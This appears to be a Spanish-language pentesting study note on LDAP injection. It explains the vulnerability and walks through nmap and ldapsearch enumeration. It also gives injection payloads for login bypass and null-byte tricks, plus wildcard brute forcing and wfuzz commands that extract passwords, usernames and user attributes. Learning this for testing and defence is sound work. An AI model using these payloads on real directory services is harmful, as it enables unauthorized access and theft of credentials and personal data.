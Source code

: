 ---------
- Tags: #OWASP_TOP_10 #vulnerabilidad #hacking #LDAP #Directorio_activo
--------------
> Las inyecciones **LDAP (Protocolo Ligero de Acceso a Directorios)** son una categoría de vulnerabilidades de seguridad en aplicaciones web que involucran la manipulación maliciosa de consultas o comandos LDAP dentro de una solicitud. 
> 
> **LDAP** es un protocolo utilizado para acceder y gestionar información de directorios, como bases de datos de usuarios y contraseñas en sistemas de autenticación. 
> 
> Las inyecciones **LDAP** ocurren cuando un atacante introduce datos maliciosos, a menudo a través de campos de entrada, con el fin de engañar a la aplicación para que realice consultas LDAP no deseadas. Esto puede dar como resultado la obtención no autorizada de información confidencial o incluso la toma de control de la autenticación y autorización del sistema, además se podrían realizar operaciones maliciosas en la red, como lanzar ataques de [[Phishing]] o incluso instalar software malicioso en los sistemas de la red.
> 
> Para evitar este tipo de ataques, las aplicaciones que interactúan con un servidor **LDAP** deben validar y limpiar adecuadamente la entrada del usuario antes de enviarla al servidor, además de **monitorizar** regularmente las **actividades** del servidor como la ejecución con** privilegios mínimos** en la red.

---------------------
# Detección de vulnerabilidad

Para empezar, debe estar habilitado el servicio a través del **puerto 389** o el **puerto 636** (ldaps). Podemos seguir los siguientes pasos para intentar detectar esta vulnerabilidad:

- **Manipulación en los puntos de entrada de datos:** Podemos tratar de identificar áreas en la página donde los usuarios puedan ingresar datos, como formularios de inicio de sesión, campo des búsqueda u otros, de manera que podemos tratar de incluir caracteres especiales, comillas y otros caracteres que puedan ser interpretados por el protocolo **LDAP**. Una cadena típica de inyección es ``"John*)(|(objectClass=*"``.

- **Errores de sintaxis LDAP o tiempos de respuesta largos:** Si la aplicación web devuelve errores de sintaxis LDAP o mensajes de error relacionados con consultas LDAP, podría indicar que la inyección es posible y que no se aplica una validación correcta en la entrada de datos. Si hay tiempos de respuesta significativamente más largos después de la manipulación de datos, también puede ser indicio de que es vulnerable.

----------------------
# Explotación

Una vez hayamos detectado que el **puerto 389** está abierto, podemos utilizar scripts de [[nmap]] que nos proporcionan información acerca del servicio **LDAP**:

```bash
nmap --script ldap\* -p389 <IP>
```

lo cual nos debería devolver algo parecido a lo siguiente:

![[Pasted image 20230902123040.png]]

de donde podemos observar en el campo **namingContexts** el dominio de la página web, en este caso example.org.

Ahora podremos ejecutar el siguiente comando para hacer un análisis más profundo del servicio:

```bash
ldapsearch -x -H ldap://<IP> -b dc=example,dc=org -D "cn=admin,dc=exmaple,dc=org" -w admin 'cn=admin'
```

donde los parámetros significan:
- **-x**: para que utilice autentificación simple
- **-H**: para especificar la URL a la que queremos acceder
- **-b**: (base de búsqueda) le proporcionamos el dominio encontrado anteriormente.
- **-D**: (Distinguished name) le indicamos como qué usuario nos queremos identificar
- **-w**: (passwd) le indicamos que contraseña queremos utilizar

Al final del comando utilizamos el criterio de búsqueda para que filtre por el usuario admin, pero podemos hacer búsquedas más avanzadas, como por ejemplo la siguiente, que se refiere a que el usuario sea admin **y** la descripción empiece por LDAP:

```bash
"(&(cn=admin)(description=LDAP*))"
```

## Obtención de credenciales y acceso al sistema

Este tipo de peticiones son las que puede realizar un servicio web que esté corriendo un LDAP, de manera que si no se ha sanitizado correctamente la entrada de los datos, por ejemplo que reciba los datos y haya una sentencia como la siguiente:

```
$filter = '(&(cn=' . $userId . ')(userPassword=' . $password . '))';
```

seríamos capaces de introducir los campos admin:* de manera que la petición quedaría de la siguiente forma: 

```
$filter = '(&(cn=admin)(userPassword=*))';
```

con la que habríamos ganado acceso al sistema como admin. Para intentar deducir la contraseña, podemos hacer un proceso similar al de [[NoSQLi]], en el que vamos realizando fuerza bruta para descubrir los usuarios existentes con sus respectivas contraseñas, podemos hacer uso de [[Burpsuite]] para que sea más cómodo el proceso de modificación:

```
$filter = '(&(cn=admin)(userPassword=a*))';  #No ganamos acceso, la contraseña no empieca por a
$filter = '(&(cn=admin)(userPassword=b*))';  #No ganamos acceso, la contraseña no empieca por b
$filter = '(&(cn=admin)(userPassword=c*))';  #Ganamos acceso, la contraseña empieza por c

$filter = '(&(cn=admin)(userPassword=ca*))';  #No ganamos acceso, la contraseña no empieca por ca
...

$filter = '(&(cn=a*)(userPassword=*))';      #No ganamos acceso, no hay usuarios que empiecen por a
$filter = '(&(cn=b*)(userPassword=*))';      #No ganamos acceso, no hay usuarios que empiecen por b
$filter = '(&(cn=c*)(userPassword=*))';      #Ganamos acceso, hay al menos un usuario que empiece por c

$filter = '(&(cn=ca*)(userPassword=*))';      #No ganamos acceso, no hay usuarios que empiecen por ca
...
```

También podemos hacer uso del **null byte** para que el campo de la contraseña no quede dentro de la petición, de manera que solo estemos diciendo que queremos acceder como el usuario admin. Podríamos hacer una petición de la siguiente forma:

```
$filter = '(&(cn=admin))%20)(userPassword=testing))'; #Introduciendo admin))%20 como usuario
```

## Obtención de atributos de usuarios

Cada usuario perteneciente al servidor tiene sus atributos, que pueden aportar información relevante y suponer un riesgo conocer. Para hacer una enumeración de los atributos existentes de un usuario, podemos hacer uso de [[Wfuzz]] de la siguiente manera, suponiendo que el filtrado se realiza de la siguiente manera:

```
$filter = '(&(cn=admin)(userPassword=admin))';        
```

podemos utilizar como diccionario el pertenciente a  [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LDAP-openldap-attributes.txt), para ejecutar el siguiente comando:

```
wfuzz -c -w /.../LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=*))%00&password=*' -u <URL>
```

y podríamos realizar un filtrado para quedarnos con las respuestas que nos interesen, para conseguir los atributos existentes para admin.

Una vez tengamos los atributos existentes para un usuario, podemos realizar fuerza bruta al igual que se ha utilizado anteriormente para conseguir el valor de dichos campos, por ejemplo, si quisiéramos conseguir el número de teléfono de un usuario podemos realizar el siguiente proceso:

```
wfuzz -c -z range,0-9 -d 'user_id=admin)(telephoneNumber=FUZZ*))%00&password=*' -u <URL>   #Obtenemos que empieza por 6
wfuzz -c -z range,0-9 -d 'user_id=admin)(telephoneNumber=6FUZZ*))%00&password=*' -u <URL>  #Obtenemos que empieza por 64
wfuzz -c -z range,0-9 -d 'user_id=admin)(telephoneNumber=64FUZZ*))%00&password=*' -u <URL>  #Obtenemos que empieza por 645
wfuzz -c -z range,0-9 -d 'user_id=admin)(telephoneNumber=645FUZZ*))%00&password=*' -u <URL>  #Obtenemos que empieza por 6450
...
```

Se podría programar un script en python para automatizar todos estos procesos de fuerza bruta.

-----------------
# Ejemplos prácticos

- [LDAP-Injection-Vuln-App](https://github.com/motikan2010/LDAP-Injection-Vuln-App)